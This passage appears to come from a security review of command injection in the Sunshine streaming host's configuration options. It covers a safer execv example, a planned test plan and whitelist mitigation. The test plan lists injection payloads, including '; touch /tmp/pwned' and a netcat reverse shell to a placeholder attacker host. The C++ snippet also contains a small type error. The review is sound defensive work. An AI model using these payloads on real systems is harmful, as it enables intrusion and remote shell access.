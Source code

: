     *   **More Robust Code (Hypothetical):**
        ```c++
        // config.xml: <do>mycommand</do> <arg>arg1</arg>
        std::string command = getConfigValue("do");
        std::string arg = getConfigValue("arg");

        if (command == "mycommand") {
          // Use a safer API, like execv, with separate arguments
          char* argv[] = {"mycommand", arg.c_str(), NULL};
          execv("/path/to/mycommand", argv);
        } else {
          // Handle invalid command
        }
        ```
        This is much more robust because it avoids shell execution and uses a parameterized API.

### 2.2 Dynamic Analysis (Testing)

This section will be populated after conducting testing based on the code review findings.  However, we can outline the planned testing approach:

1.  **Setup:**  We'll create a virtual machine (e.g., using VirtualBox or VMware) running a supported operating system (e.g., Linux or Windows).  We'll install Sunshine and any necessary dependencies.

2.  **Test Cases:**  We'll create a series of test cases, each with a different malicious configuration input.  Examples include:
    *   **Basic Command Injection:**  `; whoami` (Linux) or `& whoami` (Windows) appended to a legitimate command.
    *   **Quoted Command Injection:**  `" ; whoami "` (attempts to bypass simple string matching).
    *   **Backtick Command Injection:**  `` `whoami` `` (another way to execute commands in some shells).
    *   **Encoded Command Injection:**  Using URL encoding or other encoding schemes to obfuscate the injected command.
    *   **File Creation/Modification:**  Attempting to create or modify files on the system (e.g., `; touch /tmp/pwned`).
    *   **Network Connection:**  Attempting to establish a network connection (e.g., `; nc -e /bin/sh <attacker_ip> <attacker_port>`).
    *   **Bypassing Specific Sanitization (if found):**  If the code review reveals a specific sanitization routine, we'll craft inputs designed to bypass it.

3.  **Monitoring:**  We'll monitor the system during each test case, looking for:
    *   **Process Execution:**  Using `ps` (Linux) or Task Manager (Windows) to see if the injected command was executed.
    *   **File System Changes:**  Checking for the creation or modification of files.
    *   **Network Activity:**  Using `netstat` or Wireshark to detect unexpected network connections.
    *   **Sunshine Logs:**  Examining the Sunshine logs for any evidence of the injected command.

4.  **Iteration:**  We'll iterate on the test cases and monitoring techniques based on the results.

### 2.3 Mitigation Analysis

*   **Strict Input Validation (Whitelist):**  This is the most effective mitigation.  Sunshine should define a strict whitelist of allowed commands and characters for the `do`, `prep`, and `detach` options.  Any input that doesn't match the whitelist should be rejected.  The whitelist should be as restrictive as possible.  For example, if only a few specific commands are needed, the whitelist should only contain those commands.  Regular expressions can be used to enforce the whitelist, but they must be carefully crafted to avoid bypasses.
